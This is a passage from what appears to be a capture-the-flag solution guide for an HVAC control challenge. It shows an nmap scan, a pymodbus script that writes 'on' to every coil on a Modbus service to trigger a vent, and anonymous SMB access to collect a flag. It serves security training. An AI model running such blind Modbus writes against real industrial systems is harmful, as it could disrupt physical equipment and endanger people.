8. No need to change heat to cool--you can click Enter temperature  here and enter -56 degrees and watch the temperature go down.

    Once the temperature reaches -56 degrees, the Trigger 2 light comes on.

    

    One more step to go.

9. The Sector 6 Manual Vent button doesn't work. We need another way to send a trigger. Perform another nmap scan using this command.

    ```bash
    sudo nmap -sSV -p- 10.10.10.112
    ```

    

    This scan reveals a new open port -- 1205 modbus -- we can send manual commands to the modbus.

    We're going to write a script to send manual commands to the modbus service. However, you should understand these terms: coils, discrete inputs, input registers, and holding registers.
    
    - Coils: 1-bit registers. Used to control discrete outputs. May be read or written.
    - Discrete inputs: 1-bit registers. Used as inputs. May only be read.
    - Input registers: 16-bit registers. Used for input. May only be read.
    - Holding registers: 16-bits registers. Used for inputs, outputs or holding data. May be read or written.

10. Knowing what you know about coils, discrete inputs, input registers, and holding registers, to manually vent Sector 6, we should change the vent value from 0 to 1. To do this, we will write a Python script; and to write the script, we will download a Python module called pymodbus.

    ```bash
    pip install pymodbus
    ```

11. Here is the script we used. Our solution guide range is from 0 to 8185. You can type any range you want but once your script goes above 8185, it will stop reading/writing to coils. This modbus has the address range from 0 to 8186. We called it vent.py.

    ```python
    from pymodbus.client.sync import ModbusTcpClient as ModbusClient
    import time

    client = ModbusClient('10.10.10.112', port=1205)

    unit=0x01

    for x in range(0,8185):

        # Get the state
        rr = client.read_coils(x, 1, unit=unit)
        print(x, "- Sector 6 Manual Vent Button output: " + str(rr.getBit(0)))

        # Manually write
        client.write_coil(x, True, unit=unit)

        # Get the state
        rr = client.read_coils(x, 1, unit=unit)
        print(x, "- Sector 6 Manual Vent Button output: " + str(rr.getBit(0)))
    ```

12. Run it using the following command: `python3 vent.py`
13. The method the script above uses turns all the coils from off to on--including coils related to heat, cool, fan, system, and vents. What this mean is that heating, cooling, fan, system and vents will all be turned on, which goes against the HVAC Instructions provided at the beginning of the solution guide. To fix this, the easiest solution would be to go to the HVAC dashboard and turn the following off:
    - Cooling
    - Heating
    - Fan
    - System

14. And then, turn only the essential buttons needed for the HVAC to  work. In this example, we will turn System, Cooling and Fan On. Once you do this, the HVAC will be back to a fully functional state.
15. Go to HVAC_Scheme.sch. The Venting Sector 6 light should be green!

    

## Retrieving the Codex

Once Sector 6 is vented (mission accomplished!), retrieve your codex using the SMB shared folder on IP 10.10.10.115.

1. Open the files directories and select Browse Network.

    

2. In the search bar, enter: smb://10.10.10.115

    

    The archeologydatashare folder is visible.

    

3. Double-click archeologydatashare, select Anonymous, then click Connect.

    

You have retrieved your codex!